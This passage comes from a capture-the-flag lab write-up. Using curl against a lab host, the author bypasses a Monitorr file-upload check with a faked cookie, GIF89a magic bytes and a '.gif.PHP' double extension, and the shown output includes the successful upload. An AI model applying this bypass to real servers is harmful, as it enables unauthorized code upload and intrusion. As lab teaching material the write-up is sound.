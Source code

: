 ## Debugging Exploit

Time to do a little investigating using Curl to see what protections are in place. First we can try and upload a file using the same method in the exploit but direct from Curl:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# curl -k -F "fileToUpload=@./BlackUnicorn.png" https://monitorr.robyns-petshop.thm/assets/php/upload.php
<div id='uploadreturn'>You are an exploit.</div><div id='uploaderror'>ERROR: BlackUnicorn.png was not uploaded.</div></div>
```

Above -k tells Curl to ignore the certificate check. We can see my attempt to upload a picture failed. Let's try adding the cookie we found before:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# curl -k -F "fileToUpload=@./BlackUnicorn.png" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"
<div id='uploadreturn'>File BlackUnicorn.png is an image: <br><div id='uploadok'>File BlackUnicorn.png has been uploaded to: ../data/usrimg/blackunicorn.png</div></div>
```

That looks better. Now let's try a php file, like the exploit does:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# echo -e $'hello from pencer' > test.php

┌──(root💀kali)-[~/thm/jellyfish]
└─# curl -k -F "fileToUpload=@./test.php" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"
<div id='uploadreturn'><div id='uploaderror'>ERROR: test.php is not an image or exceeds the webserver’s upload size limit.</div><div id='uploaderror'>ERROR: test.php was not uploaded.</div></div>
```

So we can see there is a check to see if the uploaded file is an image, we can try a GIF89a [magic byte](https://www.netspi.com/blog/technical/web-application-penetration-testing/magic-bytes-identifying-common-file-formats-at-a-glance/?print=print) and double extension to get around this:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# echo -e $'\x47\x49\x46\x38\x39\x61\nhello from pencer' > test2.gif.php

┌──(root💀kali)-[~/thm/jellyfish]
└─# curl -k -F "fileToUpload=@./test2.gif.php" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"
<div id='uploadreturn'><div id='uploaderror'>ERROR: test2.gif.php is not an image or exceeds the webserver’s upload size limit.</div><div id='uploaderror'>ERROR: test2.gif.php was not uploaded.</div></div>
```

Still no good, let's see if the check is case sensitive:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# curl -k -F "fileToUpload=@./test2.gif.PHP" https://monitorr.robyns-petshop.thm/assets/php/upload.php -H "Cookie: isHuman=1"
<div id='uploadreturn'>File test2.gif.PHP is an image: <br><div id='uploadok'>File test2.gif.PHP has been uploaded to: ../data/usrimg/test2.gif.php</div></div>
```
